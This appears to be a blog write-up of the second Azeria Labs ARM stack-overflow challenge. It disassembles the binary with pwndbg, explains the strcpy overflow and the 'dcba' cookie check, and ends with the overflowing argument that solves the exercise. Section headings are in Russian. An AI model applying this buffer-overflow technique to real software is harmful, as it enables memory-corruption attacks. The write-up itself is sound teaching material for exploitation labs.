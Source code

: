 ```yaml
---
layout: post
title: "Smashing ARM Stack for Fun - Part II"
tags: [reversing, exploiting, ARM, iasm, azeria-labs]
inline_default_language: nasm
---
```


This is going to be a fast moving post, directly to the details,
about exploiting the [second Arm challenge](https://github.com/azeria-labs/ARM-challenges)<!--more-->


## Распределение стека

```nasm
 ► 0x104b0 <main>       push   {fp, lr}
   0x104b4 <main+4>     add    fp, sp, #4
   0x104b8 <main+8>     sub    sp, sp, #0x50
   0x104bc <main+12>    str    r0, [fp, #-0x50]
   0x104c0 <main+16>    str    r1, [fp, #-0x54]
```

0x58 bytes are allocated where 0x54 bytes belong to the current stack
frame.

The first two words are allocated by `push` and the rest by `sub`.

```python
100:00> ;! M[sp:]   # <-- from sp to the end of the mapped page
[
        --
        |   \xee\xee\xee\xee   == r1
        |   \xdd\xdd\xdd\xdd   == r0
  0x50  |   \x00\x00\x00\x00
        |   ... 16 more rows full of zeros ...
cookie -|-->\x00\x00\x00\x00
        --
   0x8  |   \xbb\xbb\xbb\xbb   == fp
 fp ----|-->\xaa\xaa\xaa\xaa   == lr
        --
] <-- base of stack
```

## Проверка аргументов

{% call marginnotes() %}
`errx`{.none} prints a message to the standard error output and then makes
the program exit.
<br />
See [man errx](https://linux.die.net/man/3/errx)
 {% endcall %}

`argc`{.none} is expected to be 1 otherwise the program will **not** jump
and `errx`{.none} will be called.

```nasm
   0x104c4 <main+20>    ldr    r3, [fp, #-0x50]
   0x104c8 <main+24>    cmp    r3, #1
   0x104cc <main+28>    bne    #main+44 <main+44>

   0x104d0 <main+32>    mov    r0, #1
   0x104d4 <main+36>    ldr    r1, [pc, #0x5c]
   0x104d8 <main+40>    bl     #errx@plt <errx@plt>

 ► 0x104dc <main+44>    mov    r3, #0
```

{% call marginnotes() %}
As mentioned in a [previous post](/articles/2021/01/14/Smashing-ARM-Stack-for-Fun-Part-I.html),
when `pc` is used for indexing
the `pc` is the address of the current about-to-be-executed instruction
*plus* 8 bytes.
 {% endcall %}

Let's see  `ldr r1, [pc, #0x5c]` that translates to 0x104d4 + 0x5c + 0x8:

```nasm
pwndbg> x/1wx 0x10538
0x10538 <main+136>:     0x000105bc

pwndbg> x/1bs 0x000105bc
0x105bc:        "please specify an argument\n"
```

## Переполнение буфера

A cookie is stored in the stack with a value of zero. Then `argv`{.none}
is loaded into `r3` or `&argv[0]`{.cpp} if you want.

The `add` instruction moves `argv`{.none} pointer 4 bytes forward. In other
words, `r3` *points* to `argv[1]`{.cpp}.

Finally the pointer is dereferenced and `r3` *has* the `argv[1]`{.cpp}
pointer.

```nasm
 ► 0x104dc <main+44>    mov    r3, #0
   0x104e0 <main+48>    str    r3, [fp, #-8]
   0x104e4 <main+52>    ldr    r3, [fp, #-0x54]
   0x104e8 <main+56>    add    r3, r3, #4
   0x104ec <main+60>    ldr    r3, [r3]
```

Like in the [previous challenge](/articles/2021/01/14/Smashing-ARM-Stack-for-Fun-Part-I.html),
begin of the buffer for `strcpy`{.cpp}
is 4 bytes below the pushed arguments and has a size of 64 bytes
(0x48 bytes minus 4 bytes for the pushed `fp` and 4 bytes for the
cookie)

```nasm
   0x104f0 <main+64>    sub    r2, fp, #0x48
```

```python
100:20> ;! M[sp:]
[
        --
        |   \xee\xee\xee\xee   == r1
        |   \xdd\xdd\xdd\xdd   == r0
  0x50  |   \x00\x00\x00\x00
buf ----|-->AAAA
        |   BBBB
        |   CCCC
        |   ... 13 more rows full of zeros ...
cookie -|-->\x00\x00\x00\x00
        --
   0x8  |   \xbb\xbb\xbb\xbb   == fp
 fp ----|-->\xaa\xaa\xaa\xaa   == lr
        --
]
```

Finally the call to `strcpy`{.cpp} is made:

```nasm
   0x104f4 <main+68>    mov    r0, r2
   0x104f8 <main+72>    mov    r1, r3
   0x104fc <main+76>    bl     #strcpy@plt <strcpy@plt>
```

## Сравнение

```nasm
 ► 0x10500 <main+80>     ldr    r3, [fp, #-8]
   0x10504 <main+84>     ldr    r2, [pc, #0x30]
   0x10508 <main+88>     cmp    r3, r2
   0x1050c <main+92>     bne    #main+108 <main+108>
```

The cookie is loaded from the stack and compared with the value
stored in the code segment at 0x10504 + 0x30 + 0x8:

```nasm
pwndbg> x/1wx 0x1053c
0x1053c <main+140>:     0x61626364
```

The good old `'abcd'`{.cpp} or `'dcba'`{.cpp} to be more precise due the endianess
of the machine.

A byte by byte inspection may make this more explicit:

```nasm
pwndbg> x/4bx 0x1053c
0x1053c <main+140>:     0x64    0x63    0x62    0x61
```


## Наша цель (branch at 0x1050c **not** taken):

```nasm
pwndbg> pdisass 0x10510
 ► 0x10510 <main+96>     ldr    r0, [pc, #0x28]
   0x10514 <main+100>    bl     #puts@plt <puts@plt>

   0x10518 <main+104>    b      #main+124 <main+124>

pwndbg> x/1wx 0x10540
0x10540 <main+144>:     0x000105d8

pwndbg> x/1bs 0x000105d8
0x105d8:        "you have correctly got the variable to the right value"
```

## Неудача (branch at 0x1050c **is** taken):

```nasm
pwndbg> pdisass &main+108 10
 ► 0x1051c <main+108>    ldr    r3, [fp, #-8]
   0x10520 <main+112>    ldr    r0, [pc, #0x1c]
   0x10524 <main+116>    mov    r1, r3
   0x10528 <main+120>    bl     #printf@plt <printf@plt>

pwndbg> x/1wx 0x10544
0x10544 <main+148>:     0x00010610

pwndbg> x/1bs 0x00010610
0x10610:        "Try again, you got 0x%08x\n"
```

## Эпилог

We reach here regardless of which path the branch at 0x1050c jumped to:

```nasm
pwndbg> pdisass &main+124
 ► 0x1052c <main+124>    mov    r0, r3
   0x10530 <main+128>    sub    sp, fp, #4
   0x10534 <main+132>    pop    {fp, pc}
```

## Атака

```shell
pi@raspberrypi:~$ ./stack1 AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAdcba
you have correctly got the variable to the right value
```

